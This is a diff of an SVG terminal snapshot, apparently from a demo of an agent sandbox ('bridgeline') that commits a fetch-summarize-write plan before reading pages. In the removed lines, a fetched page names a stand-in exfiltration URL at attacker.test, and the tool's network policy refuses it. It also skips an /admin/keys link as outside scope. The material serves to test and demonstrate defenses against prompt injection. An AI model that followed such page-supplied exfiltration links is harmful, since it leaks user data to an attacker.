-       <text class="terminal-73425060-r1" x="1122.4" y="117.6" textLength="12.2" clip-path="url(#terminal-73425060-line-4)">
- </text>
-       <text class="terminal-73425060-r4" x="0" y="142" textLength="732" clip-path="url(#terminal-73425060-line-5)">────────────────────────────────────────────────────────────</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="142" textLength="12.2" clip-path="url(#terminal-73425060-line-5)">
- </text>
-       <text class="terminal-73425060-r4" x="0" y="166.4" textLength="183" clip-path="url(#terminal-73425060-line-6)">task           </text>
-       <text class="terminal-73425060-r1" x="183" y="166.4" textLength="939.4" clip-path="url(#terminal-73425060-line-6)">Summarize the release notes at http://127.0.0.1:58678/docs/notes and write it</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="166.4" textLength="12.2" clip-path="url(#terminal-73425060-line-6)">
- </text>
-       <text class="terminal-73425060-r1" x="0" y="190.8" textLength="231.8" clip-path="url(#terminal-73425060-line-7)">to notes/summary.md</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="190.8" textLength="12.2" clip-path="url(#terminal-73425060-line-7)">
- </text>
-       <text class="terminal-73425060-r4" x="0" y="215.2" textLength="183" clip-path="url(#terminal-73425060-line-8)">models         </text>
-       <text class="terminal-73425060-r1" x="183" y="215.2" textLength="146.4" clip-path="url(#terminal-73425060-line-8)">planner none</text>
-       <text class="terminal-73425060-r3" x="329.4" y="215.2" textLength="61" clip-path="url(#terminal-73425060-line-8)">  -  </text>
-       <text class="terminal-73425060-r1" x="390.4" y="215.2" textLength="170.8" clip-path="url(#terminal-73425060-line-8)">extractor none</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="215.2" textLength="12.2" clip-path="url(#terminal-73425060-line-8)">
- </text>
-       <text class="terminal-73425060-r4" x="0" y="239.6" textLength="183" clip-path="url(#terminal-73425060-line-9)">planner input  </text>
-       <text class="terminal-73425060-r4" x="183" y="239.6" textLength="256.2" clip-path="url(#terminal-73425060-line-9)">your instruction only</text>
-       <text class="terminal-73425060-r3" x="439.2" y="239.6" textLength="61" clip-path="url(#terminal-73425060-line-9)">  -  </text>
-       <text class="terminal-73425060-r1" x="500.2" y="239.6" textLength="85.4" clip-path="url(#terminal-73425060-line-9)">0 bytes</text>
-       <text class="terminal-73425060-r4" x="585.6" y="239.6" textLength="195.2" clip-path="url(#terminal-73425060-line-9)"> of page content</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="239.6" textLength="12.2" clip-path="url(#terminal-73425060-line-9)">
- </text>
-       <text class="terminal-73425060-r4" x="0" y="264" textLength="732" clip-path="url(#terminal-73425060-line-10)">────────────────────────────────────────────────────────────</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="264" textLength="12.2" clip-path="url(#terminal-73425060-line-10)">
- </text>
-       <text class="terminal-73425060-r2" x="0" y="288.4" textLength="48.8" clip-path="url(#terminal-73425060-line-11)">PLAN</text>
-       <text class="terminal-73425060-r4" x="48.8" y="288.4" textLength="463.6" clip-path="url(#terminal-73425060-line-11)">  committed before anything is fetched</text>
-       <text class="terminal-73425060-r3" x="512.4" y="288.4" textLength="122" clip-path="url(#terminal-73425060-line-11)">   4 steps</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="288.4" textLength="12.2" clip-path="url(#terminal-73425060-line-11)">
- </text>
-       <text class="terminal-73425060-r1" x="1122.4" y="312.8" textLength="12.2" clip-path="url(#terminal-73425060-line-12)">
- </text>
-       <text class="terminal-73425060-r3" x="12.2" y="337.2" textLength="24.4" clip-path="url(#terminal-73425060-line-13)">1 </text>
-       <text class="terminal-73425060-r1" x="36.6" y="337.2" textLength="146.4" clip-path="url(#terminal-73425060-line-13)">fetch       </text>
-       <text class="terminal-73425060-r1" x="183" y="337.2" textLength="402.6" clip-path="url(#terminal-73425060-line-13)">http://127.0.0.1:58678/docs/notes</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="337.2" textLength="12.2" clip-path="url(#terminal-73425060-line-13)">
- </text>
-       <text class="terminal-73425060-r4" x="73.2" y="361.6" textLength="97.6" clip-path="url(#terminal-73425060-line-14)">hosts   </text>
-       <text class="terminal-73425060-r1" x="170.8" y="361.6" textLength="109.8" clip-path="url(#terminal-73425060-line-14)">127.0.0.1</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="361.6" textLength="12.2" clip-path="url(#terminal-73425060-line-14)">
- </text>
-       <text class="terminal-73425060-r4" x="73.2" y="386" textLength="97.6" clip-path="url(#terminal-73425060-line-15)">prefix  </text>
-       <text class="terminal-73425060-r1" x="170.8" y="386" textLength="61" clip-path="url(#terminal-73425060-line-15)">/docs</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="386" textLength="12.2" clip-path="url(#terminal-73425060-line-15)">
- </text>
-       <text class="terminal-73425060-r4" x="73.2" y="410.4" textLength="97.6" clip-path="url(#terminal-73425060-line-16)">depth   </text>
-       <text class="terminal-73425060-r1" x="170.8" y="410.4" textLength="195.2" clip-path="url(#terminal-73425060-line-16)">1    pages &lt;= 10</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="410.4" textLength="12.2" clip-path="url(#terminal-73425060-line-16)">
- </text>
-       <text class="terminal-73425060-r3" x="73.2" y="434.8" textLength="97.6" clip-path="url(#terminal-73425060-line-17)">-&gt; pages</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="434.8" textLength="12.2" clip-path="url(#terminal-73425060-line-17)">
- </text>
-       <text class="terminal-73425060-r3" x="12.2" y="459.2" textLength="24.4" clip-path="url(#terminal-73425060-line-18)">2 </text>
-       <text class="terminal-73425060-r1" x="36.6" y="459.2" textLength="146.4" clip-path="url(#terminal-73425060-line-18)">extract     </text>
-       <text class="terminal-73425060-r3" x="183" y="459.2" textLength="85.4" clip-path="url(#terminal-73425060-line-18)">{pages}</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="459.2" textLength="12.2" clip-path="url(#terminal-73425060-line-18)">
- </text>
-       <text class="terminal-73425060-r4" x="73.2" y="483.6" textLength="97.6" clip-path="url(#terminal-73425060-line-19)">schema  </text>
-       <text class="terminal-73425060-r1" x="170.8" y="483.6" textLength="73.2" clip-path="url(#terminal-73425060-line-19)">string</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="483.6" textLength="12.2" clip-path="url(#terminal-73425060-line-19)">
- </text>
-       <text class="terminal-73425060-r3" x="73.2" y="508" textLength="122" clip-path="url(#terminal-73425060-line-20)">-&gt; summary</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="508" textLength="12.2" clip-path="url(#terminal-73425060-line-20)">
- </text>
-       <text class="terminal-73425060-r3" x="12.2" y="532.4" textLength="24.4" clip-path="url(#terminal-73425060-line-21)">3 </text>
-       <text class="terminal-73425060-r1" x="36.6" y="532.4" textLength="146.4" clip-path="url(#terminal-73425060-line-21)">write_file  </text>
-       <text class="terminal-73425060-r1" x="183" y="532.4" textLength="195.2" clip-path="url(#terminal-73425060-line-21)">notes/summary.md</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="532.4" textLength="12.2" clip-path="url(#terminal-73425060-line-21)">
- </text>
-       <text class="terminal-73425060-r4" x="73.2" y="556.8" textLength="97.6" clip-path="url(#terminal-73425060-line-22)">content </text>
-       <text class="terminal-73425060-r3" x="170.8" y="556.8" textLength="109.8" clip-path="url(#terminal-73425060-line-22)">{summary}</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="556.8" textLength="12.2" clip-path="url(#terminal-73425060-line-22)">
- </text>
-       <text class="terminal-73425060-r3" x="12.2" y="581.2" textLength="24.4" clip-path="url(#terminal-73425060-line-23)">4 </text>
-       <text class="terminal-73425060-r1" x="36.6" y="581.2" textLength="146.4" clip-path="url(#terminal-73425060-line-23)">report      </text>
-       <text class="terminal-73425060-r1" x="1122.4" y="581.2" textLength="12.2" clip-path="url(#terminal-73425060-line-23)">
- </text>
-       <text class="terminal-73425060-r4" x="73.2" y="605.6" textLength="97.6" clip-path="url(#terminal-73425060-line-24)">summary </text>
-       <text class="terminal-73425060-r3" x="170.8" y="605.6" textLength="109.8" clip-path="url(#terminal-73425060-line-24)">{summary}</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="605.6" textLength="12.2" clip-path="url(#terminal-73425060-line-24)">
- </text>
-       <text class="terminal-73425060-r1" x="1122.4" y="630" textLength="12.2" clip-path="url(#terminal-73425060-line-25)">
- </text>
-       <text class="terminal-73425060-r4" x="0" y="654.4" textLength="439.2" clip-path="url(#terminal-73425060-line-26)">every destination above is a literal</text>
-       <text class="terminal-73425060-r5" x="439.2" y="654.4" textLength="61" clip-path="url(#terminal-73425060-line-26)">  -  </text>
-       <text class="terminal-73425060-r4" x="500.2" y="654.4" textLength="475.8" clip-path="url(#terminal-73425060-line-26)">every {slot} sits in a content position</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="654.4" textLength="12.2" clip-path="url(#terminal-73425060-line-26)">
- </text>
-       <text class="terminal-73425060-r1" x="1122.4" y="678.8" textLength="12.2" clip-path="url(#terminal-73425060-line-27)">
- </text>
-       <text class="terminal-73425060-r1" x="0" y="703.2" textLength="24.4" clip-path="url(#terminal-73425060-line-28)">▸ </text>
-       <text class="terminal-73425060-r3" x="24.4" y="703.2" textLength="36.6" clip-path="url(#terminal-73425060-line-28)">1  </text>
-       <text class="terminal-73425060-r1" x="61" y="703.2" textLength="134.2" clip-path="url(#terminal-73425060-line-28)">fetch      </text>
-       <text class="terminal-73425060-r1" x="195.2" y="703.2" textLength="402.6" clip-path="url(#terminal-73425060-line-28)">http://127.0.0.1:58678/docs/notes</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="703.2" textLength="12.2" clip-path="url(#terminal-73425060-line-28)">
- </text>
-       <text class="terminal-73425060-r4" x="48.8" y="727.6" textLength="24.4" clip-path="url(#terminal-73425060-line-29)">▸ </text>
-       <text class="terminal-73425060-r4" x="73.2" y="727.6" textLength="61" clip-path="url(#terminal-73425060-line-29)">200  </text>
-       <text class="terminal-73425060-r1" x="134.2" y="727.6" textLength="402.6" clip-path="url(#terminal-73425060-line-29)">http://127.0.0.1:58678/docs/notes</text>
-       <text class="terminal-73425060-r3" x="536.8" y="727.6" textLength="85.4" clip-path="url(#terminal-73425060-line-29)">  757 B</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="727.6" textLength="12.2" clip-path="url(#terminal-73425060-line-29)">
- </text>
-       <text class="terminal-73425060-r4" x="48.8" y="752" textLength="24.4" clip-path="url(#terminal-73425060-line-30)">▸ </text>
-       <text class="terminal-73425060-r4" x="73.2" y="752" textLength="61" clip-path="url(#terminal-73425060-line-30)">200  </text>
-       <text class="terminal-73425060-r1" x="134.2" y="752" textLength="427" clip-path="url(#terminal-73425060-line-30)">http://127.0.0.1:58678/docs/upgrade</text>
-       <text class="terminal-73425060-r3" x="561.2" y="752" textLength="85.4" clip-path="url(#terminal-73425060-line-30)">  205 B</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="752" textLength="12.2" clip-path="url(#terminal-73425060-line-30)">
- </text>
-       <text class="terminal-73425060-r3" x="48.8" y="776.4" textLength="24.4" clip-path="url(#terminal-73425060-line-31)">· </text>
-       <text class="terminal-73425060-r4" x="73.2" y="776.4" textLength="61" clip-path="url(#terminal-73425060-line-31)">skip </text>
-       <text class="terminal-73425060-r4" x="134.2" y="776.4" textLength="402.6" clip-path="url(#terminal-73425060-line-31)">http://127.0.0.1:58678/admin/keys</text>
-       <text class="terminal-73425060-r3" x="536.8" y="776.4" textLength="585.6" clip-path="url(#terminal-73425060-line-31)">  path '/admin/keys' outside plan prefix '/docs'</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="776.4" textLength="12.2" clip-path="url(#terminal-73425060-line-31)">
- </text>
-       <text class="terminal-73425060-r1" x="1122.4" y="800.8" textLength="12.2" clip-path="url(#terminal-73425060-line-32)">
- </text>
-       <text class="terminal-73425060-r6" x="24.4" y="825.2" textLength="122" clip-path="url(#terminal-73425060-line-33)">┌────────┐</text>
-       <text class="terminal-73425060-r6" x="183" y="825.2" textLength="109.8" clip-path="url(#terminal-73425060-line-33)">⨯ REFUSED</text>
-       <text class="terminal-73425060-r6" x="292.8" y="825.2" textLength="146.4" clip-path="url(#terminal-73425060-line-33)">   netpolicy</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="825.2" textLength="12.2" clip-path="url(#terminal-73425060-line-33)">
- </text>
-       <text class="terminal-73425060-r6" x="24.4" y="849.6" textLength="122" clip-path="url(#terminal-73425060-line-34)">│ \\  // │</text>
-       <text class="terminal-73425060-r1" x="183" y="849.6" textLength="427" clip-path="url(#terminal-73425060-line-34)">http://attacker.test/collect?d=link</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="849.6" textLength="12.2" clip-path="url(#terminal-73425060-line-34)">
- </text>
-       <text class="terminal-73425060-r6" x="24.4" y="874" textLength="122" clip-path="url(#terminal-73425060-line-35)">│--(OO)--│</text>
-       <text class="terminal-73425060-r4" x="183" y="874" textLength="463.6" clip-path="url(#terminal-73425060-line-35)">host 'attacker.test' not in plan scope</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="874" textLength="12.2" clip-path="url(#terminal-73425060-line-35)">
- </text>
-       <text class="terminal-73425060-r6" x="24.4" y="898.4" textLength="122" clip-path="url(#terminal-73425060-line-36)">│ //  \\ │</text>
-       <text class="terminal-73425060-r4" x="183" y="898.4" textLength="463.6" clip-path="url(#terminal-73425060-line-36)">the page named this - the plan did not</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="898.4" textLength="12.2" clip-path="url(#terminal-73425060-line-36)">
- </text>
-       <text class="terminal-73425060-r1" x="1122.4" y="922.8" textLength="12.2" clip-path="url(#terminal-73425060-line-37)">
- </text>
-       <text class="terminal-73425060-r1" x="0" y="947.2" textLength="24.4" clip-path="url(#terminal-73425060-line-38)">▸ </text>
-       <text class="terminal-73425060-r3" x="24.4" y="947.2" textLength="36.6" clip-path="url(#terminal-73425060-line-38)">2  </text>
-       <text class="terminal-73425060-r1" x="61" y="947.2" textLength="134.2" clip-path="url(#terminal-73425060-line-38)">extract    </text>
-       <text class="terminal-73425060-r4" x="195.2" y="947.2" textLength="158.6" clip-path="url(#terminal-73425060-line-38)">schema string</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="947.2" textLength="12.2" clip-path="url(#terminal-73425060-line-38)">
- </text>
-       <text class="terminal-73425060-r1" x="0" y="971.6" textLength="24.4" clip-path="url(#terminal-73425060-line-39)">▸ </text>
-       <text class="terminal-73425060-r3" x="24.4" y="971.6" textLength="36.6" clip-path="url(#terminal-73425060-line-39)">3  </text>
-       <text class="terminal-73425060-r1" x="61" y="971.6" textLength="134.2" clip-path="url(#terminal-73425060-line-39)">write_file </text>
-       <text class="terminal-73425060-r1" x="195.2" y="971.6" textLength="195.2" clip-path="url(#terminal-73425060-line-39)">notes/summary.md</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="971.6" textLength="12.2" clip-path="url(#terminal-73425060-line-39)">
- </text>
-       <text class="terminal-73425060-r1" x="0" y="996" textLength="24.4" clip-path="url(#terminal-73425060-line-40)">▸ </text>
-       <text class="terminal-73425060-r3" x="24.4" y="996" textLength="36.6" clip-path="url(#terminal-73425060-line-40)">4  </text>
-       <text class="terminal-73425060-r1" x="61" y="996" textLength="134.2" clip-path="url(#terminal-73425060-line-40)">report     </text>
-       <text class="terminal-73425060-r1" x="1122.4" y="996" textLength="12.2" clip-path="url(#terminal-73425060-line-40)">
- </text>
-       <text class="terminal-73425060-r4" x="0" y="1020.4" textLength="732" clip-path="url(#terminal-73425060-line-41)">────────────────────────────────────────────────────────────</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="1020.4" textLength="12.2" clip-path="url(#terminal-73425060-line-41)">
- </text>
-       <text class="terminal-73425060-r4" x="0" y="1044.8" textLength="122" clip-path="url(#terminal-73425060-line-42)">3 executed</text>
-       <text class="terminal-73425060-r6" x="158.6" y="1044.8" textLength="109.8" clip-path="url(#terminal-73425060-line-42)">1 refused</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="1044.8" textLength="12.2" clip-path="url(#terminal-73425060-line-42)">
- </text>
-       <text class="terminal-73425060-r4" x="0" y="1069.2" textLength="85.4" clip-path="url(#terminal-73425060-line-43)">trace  </text>
-       <text class="terminal-73425060-r3" x="85.4" y="1069.2" textLength="732" clip-path="url(#terminal-73425060-line-43)">.crawlgate/runs/a23ac885c18043e5ae4ecf30a797c16a/trace.jsonl</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="1069.2" textLength="12.2" clip-path="url(#terminal-73425060-line-43)">
+   <g transform="translate(9, 41)" clip-path="url(#terminal-4181876958-clip-terminal)">
+     <g class="terminal-4181876958-matrix">
+       <text class="terminal-4181876958-r1" x="1122.4" y="20" textLength="12.2" clip-path="url(#terminal-4181876958-line-0)">
+ </text>
+       <text class="terminal-4181876958-r1" x="0" y="44.4" textLength="85.4" clip-path="url(#terminal-4181876958-line-1)"> \\  //</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="44.4" textLength="12.2" clip-path="url(#terminal-4181876958-line-1)">
+ </text>
+       <text class="terminal-4181876958-r1" x="0" y="68.8" textLength="97.6" clip-path="url(#terminal-4181876958-line-2)">--(oo)--</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="68.8" textLength="12.2" clip-path="url(#terminal-4181876958-line-2)">
+ </text>
+       <text class="terminal-4181876958-r1" x="0" y="93.2" textLength="85.4" clip-path="url(#terminal-4181876958-line-3)"> //  \\</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="93.2" textLength="12.2" clip-path="url(#terminal-4181876958-line-3)">
+ </text>
+       <text class="terminal-4181876958-r2" x="0" y="117.6" textLength="122" clip-path="url(#terminal-4181876958-line-4)">bridgeline</text>
+       <text class="terminal-4181876958-r3" x="122" y="117.6" textLength="85.4" clip-path="url(#terminal-4181876958-line-4)">  0.1.0</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="117.6" textLength="12.2" clip-path="url(#terminal-4181876958-line-4)">
+ </text>
+       <text class="terminal-4181876958-r4" x="0" y="142" textLength="732" clip-path="url(#terminal-4181876958-line-5)">────────────────────────────────────────────────────────────</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="142" textLength="12.2" clip-path="url(#terminal-4181876958-line-5)">
+ </text>
+       <text class="terminal-4181876958-r4" x="0" y="166.4" textLength="183" clip-path="url(#terminal-4181876958-line-6)">task           </text>
+       <text class="terminal-4181876958-r1" x="183" y="166.4" textLength="939.4" clip-path="url(#terminal-4181876958-line-6)">Summarize the release notes at http://127.0.0.1:58472/docs/notes and write it</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="166.4" textLength="12.2" clip-path="url(#terminal-4181876958-line-6)">
+ </text>
+       <text class="terminal-4181876958-r1" x="0" y="190.8" textLength="231.8" clip-path="url(#terminal-4181876958-line-7)">to notes/summary.md</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="190.8" textLength="12.2" clip-path="url(#terminal-4181876958-line-7)">
+ </text>
+       <text class="terminal-4181876958-r4" x="0" y="215.2" textLength="183" clip-path="url(#terminal-4181876958-line-8)">models         </text>
+       <text class="terminal-4181876958-r1" x="183" y="215.2" textLength="146.4" clip-path="url(#terminal-4181876958-line-8)">planner none</text>
+       <text class="terminal-4181876958-r3" x="329.4" y="215.2" textLength="61" clip-path="url(#terminal-4181876958-line-8)">  -  </text>
+       <text class="terminal-4181876958-r1" x="390.4" y="215.2" textLength="170.8" clip-path="url(#terminal-4181876958-line-8)">extractor none</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="215.2" textLength="12.2" clip-path="url(#terminal-4181876958-line-8)">
+ </text>
+       <text class="terminal-4181876958-r4" x="0" y="239.6" textLength="183" clip-path="url(#terminal-4181876958-line-9)">planner input  </text>
+       <text class="terminal-4181876958-r4" x="183" y="239.6" textLength="256.2" clip-path="url(#terminal-4181876958-line-9)">your instruction only</text>
+       <text class="terminal-4181876958-r3" x="439.2" y="239.6" textLength="61" clip-path="url(#terminal-4181876958-line-9)">  -  </text>
+       <text class="terminal-4181876958-r1" x="500.2" y="239.6" textLength="85.4" clip-path="url(#terminal-4181876958-line-9)">0 bytes</text>
+       <text class="terminal-4181876958-r4" x="585.6" y="239.6" textLength="195.2" clip-path="url(#terminal-4181876958-line-9)"> of page content</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="239.6" textLength="12.2" clip-path="url(#terminal-4181876958-line-9)">
+ </text>
+       <text class="terminal-4181876958-r4" x="0" y="264" textLength="732" clip-path="url(#terminal-4181876958-line-10)">────────────────────────────────────────────────────────────</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="264" textLength="12.2" clip-path="url(#terminal-4181876958-line-10)">
+ </text>
+       <text class="terminal-4181876958-r2" x="0" y="288.4" textLength="48.8" clip-path="url(#terminal-4181876958-line-11)">PLAN</text>
+       <text class="terminal-4181876958-r4" x="48.8" y="288.4" textLength="463.6" clip-path="url(#terminal-4181876958-line-11)">  committed before anything is fetched</text>
+       <text class="terminal-4181876958-r3" x="512.4" y="288.4" textLength="122" clip-path="url(#terminal-4181876958-line-11)">   4 steps</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="288.4" textLength="12.2" clip-path="url(#terminal-4181876958-line-11)">
+ </text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="312.8" textLength="12.2" clip-path="url(#terminal-4181876958-line-12)">
+ </text>
+       <text class="terminal-4181876958-r3" x="12.2" y="337.2" textLength="24.4" clip-path="url(#terminal-4181876958-line-13)">1 </text>
+       <text class="terminal-4181876958-r1" x="36.6" y="337.2" textLength="146.4" clip-path="url(#terminal-4181876958-line-13)">fetch       </text>
+       <text class="terminal-4181876958-r1" x="183" y="337.2" textLength="402.6" clip-path="url(#terminal-4181876958-line-13)">http://127.0.0.1:58472/docs/notes</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="337.2" textLength="12.2" clip-path="url(#terminal-4181876958-line-13)">
+ </text>
+       <text class="terminal-4181876958-r4" x="73.2" y="361.6" textLength="97.6" clip-path="url(#terminal-4181876958-line-14)">hosts   </text>
+       <text class="terminal-4181876958-r1" x="170.8" y="361.6" textLength="109.8" clip-path="url(#terminal-4181876958-line-14)">127.0.0.1</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="361.6" textLength="12.2" clip-path="url(#terminal-4181876958-line-14)">
+ </text>
+       <text class="terminal-4181876958-r4" x="73.2" y="386" textLength="97.6" clip-path="url(#terminal-4181876958-line-15)">prefix  </text>
+       <text class="terminal-4181876958-r1" x="170.8" y="386" textLength="61" clip-path="url(#terminal-4181876958-line-15)">/docs</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="386" textLength="12.2" clip-path="url(#terminal-4181876958-line-15)">
+ </text>
+       <text class="terminal-4181876958-r4" x="73.2" y="410.4" textLength="97.6" clip-path="url(#terminal-4181876958-line-16)">depth   </text>
+       <text class="terminal-4181876958-r1" x="170.8" y="410.4" textLength="195.2" clip-path="url(#terminal-4181876958-line-16)">1    pages &lt;= 10</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="410.4" textLength="12.2" clip-path="url(#terminal-4181876958-line-16)">
+ </text>
+       <text class="terminal-4181876958-r3" x="73.2" y="434.8" textLength="97.6" clip-path="url(#terminal-4181876958-line-17)">-&gt; pages</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="434.8" textLength="12.2" clip-path="url(#terminal-4181876958-line-17)">
+ </text>
+       <text class="terminal-4181876958-r3" x="12.2" y="459.2" textLength="24.4" clip-path="url(#terminal-4181876958-line-18)">2 </text>
+       <text class="terminal-4181876958-r1" x="36.6" y="459.2" textLength="146.4" clip-path="url(#terminal-4181876958-line-18)">extract     </text>
+       <text class="terminal-4181876958-r3" x="183" y="459.2" textLength="85.4" clip-path="url(#terminal-4181876958-line-18)">{pages}</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="459.2" textLength="12.2" clip-path="url(#terminal-4181876958-line-18)">
+ </text>
+       <text class="terminal-4181876958-r4" x="73.2" y="483.6" textLength="97.6" clip-path="url(#terminal-4181876958-line-19)">schema  </text>
+       <text class="terminal-4181876958-r1" x="170.8" y="483.6" textLength="73.2" clip-path="url(#terminal-4181876958-line-19)">string</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="483.6" textLength="12.2" clip-path="url(#terminal-4181876958-line-19)">
+ </text>
+       <text class="terminal-4181876958-r3" x="73.2" y="508" textLength="122" clip-path="url(#terminal-4181876958-line-20)">-&gt; summary</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="508" textLength="12.2" clip-path="url(#terminal-4181876958-line-20)">
+ </text>
+       <text class="terminal-4181876958-r3" x="12.2" y="532.4" textLength="24.4" clip-path="url(#terminal-4181876958-line-21)">3 </text>
+       <text class="terminal-4181876958-r1" x="36.6" y="532.4" textLength="146.4" clip-path="url(#terminal-4181876958-line-21)">write_file  </text>
+       <text class="terminal-4181876958-r1" x="183" y="532.4" textLength="195.2" clip-path="url(#terminal-4181876958-line-21)">notes/summary.md</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="532.4" textLength="12.2" clip-path="url(#terminal-4181876958-line-21)">
+ </text>
+       <text class="terminal-4181876958-r4" x="73.2" y="556.8" textLength="97.6" clip-path="url(#terminal-4181876958-line-22)">content </text>
+       <text class="terminal-4181876958-r3" x="170.8" y="556.8" textLength="109.8" clip-path="url(#terminal-4181876958-line-22)">{summary}</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="556.8" textLength="12.2" clip-path="url(#terminal-4181876958-line-22)">
+ </text>
+       <text class="terminal-4181876958-r3" x="12.2" y="581.2" textLength="24.4" clip-path="url(#terminal-4181876958-line-23)">4 </text>
+       <text class="terminal-4181876958-r1" x="36.6" y="581.2" textLength="146.4" clip-path="url(#terminal-4181876958-line-23)">report      </text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="581.2" textLength="12.2" clip-path="url(#terminal-4181876958-line-23)">
+ </text>
+       <text class="terminal-4181876958-r4" x="73.2" y="605.6" textLength="97.6" clip-path="url(#terminal-4181876958-line-24)">summary </text>
+       <text class="terminal-4181876958-r3" x="170.8" y="605.6" textLength="109.8" clip-path="url(#terminal-4181876958-line-24)">{summary}</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="605.6" textLength="12.2" clip-path="url(#terminal-4181876958-line-24)">
+ </text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="630" textLength="12.2" clip-path="url(#terminal-4181876958-line-25)">
+ </text>
+       <text class="terminal-4181876958-r4" x="0" y="654.4" textLength="439.2" clip-path="url(#terminal-4181876958-line-26)">every destination above is a literal</text>
+       <text class="terminal-4181876958-r5" x="439.2" y="654.4" textLength="61" clip-path="url(#terminal-4181876958-line-26)">  -  </text>
+       <text class="terminal-4181876958-r4" x="500.2" y="654.4" textLength="475.8" clip-path="url(#terminal-4181876958-line-26)">every {slot} sits in a content position</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="654.4" textLength="12.2" clip-path="url(#terminal-4181876958-line-26)">
+ </text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="678.8" textLength="12.2" clip-path="url(#terminal-4181876958-line-27)">
+ </text>
+       <text class="terminal-4181876958-r1" x="0" y="703.2" textLength="24.4" clip-path="url(#terminal-4181876958-line-28)">▸ </text>
+       <text class="terminal-4181876958-r3" x="24.4" y="703.2" textLength="36.6" clip-path="url(#terminal-4181876958-line-28)">1  </text>
+       <text class="terminal-4181876958-r1" x="61" y="703.2" textLength="134.2" clip-path="url(#terminal-4181876958-line-28)">fetch      </text>
+       <text class="terminal-4181876958-r1" x="195.2" y="703.2" textLength="402.6" clip-path="url(#terminal-4181876958-line-28)">http://127.0.0.1:58472/docs/notes</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="703.2" textLength="12.2" clip-path="url(#terminal-4181876958-line-28)">
+ </text>
+       <text class="terminal-4181876958-r4" x="48.8" y="727.6" textLength="24.4" clip-path="url(#terminal-4181876958-line-29)">▸ </text>
+       <text class="terminal-4181876958-r4" x="73.2" y="727.6" textLength="61" clip-path="url(#terminal-4181876958-line-29)">200  </text>
+       <text class="terminal-4181876958-r1" x="134.2" y="727.6" textLength="402.6" clip-path="url(#terminal-4181876958-line-29)">http://127.0.0.1:58472/docs/notes</text>
+       <text class="terminal-4181876958-r3" x="536.8" y="727.6" textLength="85.4" clip-path="url(#terminal-4181876958-line-29)">  758 B</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="727.6" textLength="12.2" clip-path="url(#terminal-4181876958-line-29)">
+ </text>
+       <text class="terminal-4181876958-r4" x="48.8" y="752" textLength="24.4" clip-path="url(#terminal-4181876958-line-30)">▸ </text>
+       <text class="terminal-4181876958-r4" x="73.2" y="752" textLength="61" clip-path="url(#terminal-4181876958-line-30)">200  </text>
+       <text class="terminal-4181876958-r1" x="134.2" y="752" textLength="427" clip-path="url(#terminal-4181876958-line-30)">http://127.0.0.1:58472/docs/upgrade</text>
+       <text class="terminal-4181876958-r3" x="561.2" y="752" textLength="85.4" clip-path="url(#terminal-4181876958-line-30)">  205 B</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="752" textLength="12.2" clip-path="url(#terminal-4181876958-line-30)">
+ </text>
+       <text class="terminal-4181876958-r3" x="48.8" y="776.4" textLength="24.4" clip-path="url(#terminal-4181876958-line-31)">· </text>
+       <text class="terminal-4181876958-r4" x="73.2" y="776.4" textLength="61" clip-path="url(#terminal-4181876958-line-31)">skip </text>
+       <text class="terminal-4181876958-r4" x="134.2" y="776.4" textLength="402.6" clip-path="url(#terminal-4181876958-line-31)">http://127.0.0.1:58472/admin/keys</text>
